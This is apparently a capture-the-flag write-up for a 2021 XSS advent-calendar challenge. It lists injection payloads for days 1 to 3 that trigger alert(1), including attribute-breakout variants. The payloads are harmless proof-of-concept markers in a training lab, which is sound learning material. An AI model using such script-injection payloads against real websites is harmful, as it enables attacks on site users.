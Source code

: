 # Merry XmaSS challenge 2021

Find the challenge here **https://xmass.compass-demo.com/**

The goal is to get an *alert(1)* popup by injecting code via the given forms in the XSS advent calendar.

## Day 1
https://xmass.compass-demo.com/level1
```
<script>alert(1)</script>
```

## Day 2

```
"><script>alert(1)</script
```

## Day 3
```
"><script>alert(1)</script>
```